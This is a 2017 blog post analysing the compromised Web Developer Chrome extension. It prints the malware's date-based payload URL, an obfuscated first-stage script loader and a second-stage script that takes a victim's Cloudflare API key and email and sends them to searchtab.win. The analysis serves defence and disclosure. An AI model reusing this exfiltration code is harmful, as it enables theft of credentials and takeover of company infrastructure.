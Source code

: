```yaml
---
title: "Chrome Extension Steals Cloudflare Api Tokens"
date: 2017-08-03T20:59:56-04:00
---
```



Upon receiving news that the popular Chrome Extension, Web Developer, had been compromised, I
quickly began to wonder about the what and how. Several stories exist about how the extension came
to be compromised and they touched a bit on what it did. This post is meant to expand upon, what I
believe to be, the more nefarious behavior of the extension. Since the extension calls out to an
attacker-controlled URL, the payload hosted at that URL could be changed to _anything_ at any time.

At the time of inspection, the code checks to see if the victim is on the Cloudflare domain. If it
is, it starts an XHR request to fetch the users' API token and ships it, along with the victim's
email address, to an attacker-controlled server.

## The Code
The extension contains code that, upon visiting any site, generates a dynamic URL that changes
daily. It uses an MD5 hash of the current date, using the d-m-yyyy format.

~~~text
// tomorrow's url
https://wd + md5(4-8-2017) + .win/ga.js
https://wdfefe6195a8b014a1cc7d9cf2449d1b50.win/ga.js
~~~

The following payload is fetched on every page that a victim navigates to. The payload is encoded and
minified. Expanding it reveals the following portion:

~~~javascript.prettyprint
if (top['location']['href']['indexOf']('cloudflare.com') > -1) {
  (function () {
    var _0xb2b9x1 = document['createElement']('script');
    _0xb2b9x1['type'] = 'text/javascript';
    _0xb2b9x1['src'] = '//searchtab.win/ga.js';
    var _0xb2b9x2 = document['getElementsByTagName']('script')[0];
    _0xb2b9x2['parentNode']['insertBefore'](_0xb2b9x1, _0xb2b9x2)
  })()
} else {...
~~~

The first-stage payload checks whether the victim is currently on cloudflare.com. If they are, it
creates a new script tag on the page and sets its source to `//searchtab.win/ga.js`. This downloads
stage 2 of the payload. If we look, we get the following script:

~~~javascript.prettyprint
var xmlhttp = new XMLHttpRequest();
xmlhttp.open('GET', 'https://www.cloudflare.com/api/v4/user/api_key', true);
xmlhttp.setRequestHeader("x-atok", window.bootstrap.atok);
xmlhttp.onreadystatechange = function() {
  if (xmlhttp.readyState == 4) {
    if(xmlhttp.status == 200) {
      var obj = JSON.parse(xmlhttp.responseText);
      var key = obj.result.api_key;
      console.log(key);
      (new Image).src = '//searchtab.win/ga.php?user=' +
        encodeURIComponent(window.bootstrap.data.user.email) + '&key=' + encodeURIComponent(key);
    }
  }
};
xmlhttp.send(null);
~~~

This second-stage payload `GET`s the logged in user's API key then sends it, and the user's email,
along to the `searchtab.win` domain.

This was clearly a targeted attack against professional Web Developers. Web Developers will
sometimes have access to production accounts on their employer's infrastructure. Though more common
in smaller companies that don't have dedicated DevOps and/or Security teams, it's not impossible
for bigger companies to fall prey.

With a valid API token, attackers could control a company's public-facing infrastructure and
create or modify sub/domains.

We've currently blocked all outgoing requests to `*.win/ga.js` and asked our developers to update
to version 0.5 of the Web Developer extension.

